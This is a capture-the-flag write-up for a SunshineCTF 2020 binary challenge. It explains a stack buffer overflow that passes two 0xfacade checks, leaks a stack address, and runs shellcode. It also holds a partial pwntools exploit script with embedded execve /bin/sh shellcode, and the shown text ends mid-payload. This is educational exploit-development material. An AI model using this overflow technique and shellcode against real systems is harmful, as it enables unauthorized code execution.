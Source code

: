 ```c  
 local_24 = 0xdead;  
 local_28 = 0xdead;  
 local_2c = 0xdead;  
 local_30 = 0xdead;  
 local_34 = 0xdead;  
 local_38 = 0xdead;  
 local_3c = 0xdead;  
 local_40 = 0xdead;  
 local_44 = 0xdead;  
 fgets(local_4e,0x5a,stdin);  
 if ((local_44 != 0xfacade) && (local_c != 0xfacade)) {  
   exit(0);  
 }  
 return;  
}  
```

`fgets` will get enough bytes to overwrite the return address, but not enough
to put a payload after that, so we'll have to navigate the `local_44` and
`local_c` constraints and fit in our shellcode.  Neat!

Before that we'll have to score a stack leak from the `printf` statement.

The attack is fairly straightforward.

1. Write out `0x4e - 0x44` bytes of garbage to get to `local_44` (`fgets` is writing to `local_4e`).  
2. Then write out `0xfacade` as a 32-bit (`undefined4`) value.  
3. Align the stack.  We need to make sure that the leaked stack address + our current payload ends in `0` or `8` or our shellcode will most certainly fail.  Pad it out.  
4. Add the size of the payload to the stack address at this point.  
5. Insert shellcode here.  
5. Pad out to `0xc` (`0x4e - len(payload) - 0xc`).  
6. Then write out `0xfacade` as a 32-bit (`undefined4`) value.  
7. Pad out to return address.  
8. Write stack address as return (as 64-bit).

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_15')

if not args.REMOTE:  
   p = process(binary.path)  
else:  
   p = remote('chal.2020.sunshinectf.org', 30015)

p.sendline()  
p.recvuntil('There\'s a place where nothing seems: ')  
_ = p.recvline().strip()  
stack = int(_,16)  
log.info('stack: ' + hex(stack))

# http://shell-storm.org/shellcode/files/shellcode-905.php  
shellcode  = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52'  
shellcode += b'\x48\xbf\x2f\x62\x69\x6e\x2f\x2f'  
shellcode += b'\x73\x68\x57\x54\x5e\x49\x89\xd0'  
shellcode += b'\x49\x89\xd2\x0f\x05'

payload  = b''  
payload += (0x4e - 0x44) * b'A'  
```